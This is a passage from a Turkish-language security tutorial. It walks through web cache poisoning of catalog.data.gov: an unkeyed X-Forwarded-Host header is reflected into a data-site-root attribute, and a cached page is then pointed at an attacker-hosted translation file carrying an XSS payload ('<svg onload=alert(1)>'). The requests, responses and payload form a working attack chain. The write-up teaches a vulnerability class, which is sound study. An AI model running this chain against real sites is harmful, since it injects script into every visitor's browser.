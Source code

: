 <div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET /dataset HTTP/1.1
Host: catalog.data.gov
<span style="color:DodgerBlue">X-Forwarded-Host: canary</span>
</code></pre></div></div>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
&lt;body data-site-root<span class="o">=</span><span class="s2">"https://<span style="color:DodgerBlue">canary</span>/"</span><span class="o">&gt;</span>
</code></pre></div></div>

Çıktıdan anlaşıldığı üzere data-site-root değerini kontrol edebiliyoruz. Ancak XSS elde etmek için tırnak dışına çıkamıyoruz. Hatta bu özelliğin tam olarak ne için kullanıldığını da belli değil. Öğrenmek için Burp’ta tüm isteklere bir `X-Forwarded-Host: id-burpcollaborator.net` başlığı ekleyecek bir bul-değiştir kuralı tanımlayıp sitede gezinebiliriz. Bu gezinti neticesinde bazı sayfalar yüklendiğinde sunucuya JavaScript tarafından oluşturulan aşağıdaki istek gönderildi.

```bash
GET /api/i18n/en HTTP/1.1
Host: id.burpcollaborator.net
```

```bash
HTTP/1.1 200 OK
…
{}
```

Bu **/api/i18n/en** yolu, web sitesinde bir yerde, bazı lokalleştirme verilerinin nereden yükleneceğine karar vermek için data-site-root özelliğini kullanan JavaScript kodunun bulunduğunu gösteriyor. https://catalog.data.gov/api/i18n/en adresini ziyaret ettiğimizde yalnızca boş bir JSON yanıtı mevcut. Neyse ki '**en**' değerini '**es**' olarak değiştirdiğimizde bir ipucu elde ediyoruz:

```bash
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov
```

```bash
HTTP/1.1 200 OK
…
{"Show more":"Mostrar más"}
```

Buradaki dosya, cümleleri kullanıcının seçtiği dile çevirmek için bir harita içeriyor. Kendi çeviri dosyamızı oluşturarak ve kullanıcıları buna yönlendirmek için önbellek zehirlenmesini kullanarak, çeviriyi kötüye kullanabiliriz. Bunun için kendi websitemiz üzerinde örneğin linuxdersleri.net**/api/i18n/en** adresinde `{"Show more":"<svg onload=alert(1)>"}` gibi bir json yanıtı sunabiliriz. Bu sayede biz kendi websitemizi `X-Forwarded-Host` başlığı ile önbelleğe kaydettiğimizde bizim websitemizdeki /api/i18n/en adresine istek yapılıp, “show more” ifadesinin yer aldığı her yere XSS payload’ı konularak zafiyet tetiklenmiş edilmiş olacak. 

```bash
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: linuxdersleri.net

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://linuxdersleri.net/">
```
